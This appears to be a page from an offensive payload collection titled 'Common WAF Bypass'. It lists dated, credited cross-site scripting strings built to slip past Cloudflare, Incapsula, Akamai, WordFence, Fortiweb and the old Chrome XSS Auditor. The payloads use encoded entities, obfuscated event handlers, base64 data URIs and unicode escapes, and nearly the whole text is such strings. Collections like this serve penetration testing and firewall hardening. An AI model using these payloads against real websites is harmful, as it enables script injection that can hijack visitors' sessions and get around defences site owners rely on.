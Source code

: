 # Common WAF Bypass

> WAFs are designed to filter out malicious content by inspecting incoming and outgoing traffic for patterns indicative of attacks. Despite their sophistication, WAFs often struggle to keep up with the diverse methods attackers use to obfuscate and modify their payloads to circumvent detection. 


## Summary

* [Cloudflare](#cloudflare)
* [Chrome Auditor](#chrome-auditor)
* [Incapsula WAF](#incapsula-waf)
* [Akamai WAF](#akamai-waf)
* [WordFence WAF](#wordfence-waf)
* [Fortiweb WAF](#fortiweb-waf)


## Cloudflare

* 25st January 2021 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/onrandom=random onload=confirm(1)>
    <video onnull=null onmouseover=confirm(1)>
    ```

* 21st April 2020 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/OnLoad="`${prompt``}`">
    ```

* 22nd August 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/onload=%26nbsp;alert`bohdan`+
    ```

* 5th June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    1'"><img/src/onerror=.1|alert``>
    ```

* 3rd June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg onload=prompt%26%230000000040document.domain)>
    <svg onload=prompt%26%23x000000028;document.domain)>
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    ```

* 22nd March 2019 - @RakeshMane10
    ```js
    <svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
    ```

* 27th February 2018
    ```html
    <a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
    ```

## Chrome Auditor

NOTE: Chrome Auditor is deprecated and removed on latest version of Chrome and Chromium Browser.

* 9th August 2018
    ```javascript
    </script><svg><script>alert(1)-%26apos%3B
    ```


## Incapsula WAF

* 11th May 2019 - [@daveysec](https://twitter.com/daveysec/status/1126999990658670593)
    ```js
    <svg onload\r\n=$.globalEval("al"+"ert()");>
    ```

* 8th March 2018 - [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)
    ```javascript
    anythinglr00</script><script>alert(document.domain)</script>uxldz
    anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
    ```

* 11th September 2018 - [@c0d3G33k](https://twitter.com/c0d3G33k)
    ```javascript
    <object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
    ```


## Akamai WAF

* 18th June 2018 - [@zseano](https://twitter.com/zseano)
    ```javascript
    ?"></script><base%20c%3D=href%3Dhttps:\mysite>
    ```

* 28th October 2018 - [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480)
    ```svg
    <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
    ```


## WordFence WAF

* 12th September 2018 - [@brutelogic](https://twitter.com/brutelogic)
    ```html
    <a href=javas&#99;ript:alert(1)>
    ```

## Fortiweb WAF

* 9th July 2019 - [@rezaduty](https://twitter.com/rezaduty)
    ```javascript
    \u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
    ```